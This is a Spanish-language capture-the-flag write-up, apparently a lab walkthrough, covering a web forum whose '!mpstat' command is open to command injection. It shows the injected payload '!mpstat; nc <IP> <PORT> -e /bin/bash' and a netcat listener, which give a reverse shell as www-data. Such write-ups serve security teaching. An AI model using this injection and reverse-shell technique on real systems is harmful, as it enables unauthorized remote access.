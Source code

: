 Veremos que hay un puerto `80` que aloja una pagina web, si entramos dentro de dicho puerto veremos una pagina web con un `login`, pero no tendremos ningunas credenciales, por lo que vamos a registrarnos, una vez echo esto, nos llevara a una `home` en la que podremos escribir mensajes como si fura un `foro`, el primer mensaje que veremos sera el siguiente:

```
Hi, This is finally working. I spent a month on this messaging system I hope there are no bugs in it. use !mpstat to get the status of the server.
```

Vemos algo bastante intersante, nos comenta que utilicemos el comando `!mpstat` para obtener el estado del servidor, por lo que vamos a ejecutarlo a ver que vemos.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-07 181020.png" alt=""><figcaption></figcaption></figure>

## Escalate user www-data

Veremos que ha funcionado, vamos a probar una vulnerabilidad muy simple que seria el echo de concatenar comandos con `;` vamos a probarlo de esta forma.

```shell
!mpstat; id
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-07 181133.png" alt=""><figcaption></figcaption></figure>

Vemos que se esta ejecutando de forma correcta, por lo que vamos a probar a generar una `reverse shell` de esta forma.

```shell
!mpstat; nc <IP> <PORT> -e /bin/bash
```

Antes de ejecutarlo, vamos a ponernos a la escucha de esta forma:

```shell
nc -lvnp <PORT>
```

Ahora estando a la escucha vamos a ejecutar lo anterior, si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.56] 50390
whoami
www-data
```
